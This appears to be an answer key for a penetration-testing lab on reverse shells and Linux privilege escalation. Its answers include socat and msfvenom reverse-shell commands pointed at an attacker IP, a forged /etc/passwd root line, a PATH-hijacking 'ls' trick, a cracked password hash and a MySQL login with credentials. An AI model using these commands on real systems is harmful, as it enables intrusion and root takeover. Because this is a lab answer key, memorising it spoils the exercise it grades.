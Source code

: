 ## Lab 01 Answers

### Part 1.1

#### Task 3: 

1) R
2) N
3) T

#### Task 4:

1) -l
2) nc 10.10.10.11 8080

#### Task 5:

1) stty cols 238
2) sudo python3 -m http.server 80

#### Task 6:

1) TCP-L:8080

#### Task 7:

1) socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
2) socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

#### Task 8:

1) mkfifo

#### Task 9:

1) This is covered in the task -- all you need to do is substitute in your own tun0 address and chosen port.
2) _
3) msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443

#### Task 10:

1) exploit -j
2) sessions 10


### Part 1.2


#### Task 4:

2) polobox
3) 8
4) 4
5) autoscript.sh (on user4's desktop)
6) /etc/passwd

#### Task 5:

1) /home/user3/shell

#### Task 6:

2) vertical
3) $1$new$p7ptkEKU1HnaHpRtzNizS1
4) new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

#### Task 7:

2) NOPASSWD 

#### Task 8:

3) -p
5) /home/user4/Desktop

#### Task 9:

2) ls
4) echo "/bin/bash" > ls
5) chmod +x ls

### Part 1.3

#### Task 1:

2) uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

#### Task 3:

1) $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
2) sha512crypt
3) password123

#### Task 5:

1) uid=0(root) gid=0(root) groups=0(root)

#### Task 6:

1) 11
2) apache2

#### Task 9:

1) /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

#### Task 16:

1) mysql -h somehost.local -uroot -ppassword123

#### Task 17:

1) /etc/openvpn/auth.txt

#### Task 19:

1) no_root_squash
